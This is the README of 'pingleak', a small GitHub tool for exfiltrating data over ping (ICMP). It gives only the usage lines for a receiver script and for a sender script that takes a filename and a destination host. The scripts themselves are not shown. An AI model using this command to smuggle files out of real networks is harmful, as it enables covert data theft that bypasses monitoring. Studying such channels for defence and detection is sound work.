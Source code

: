 # pingleak
leak data using ping :)

# Usage

## On the receiving end
`./receiver.sh <sender (optional)>`
![Image of Receiving end](https://github.com/atcasanova/pingleak/blob/main/receiver.png?raw=true)


## On the sending end
`./pingleak.sh <filename> <host>`
![Image of sending end](https://github.com/atcasanova/pingleak/blob/main/sender.png?raw=true)
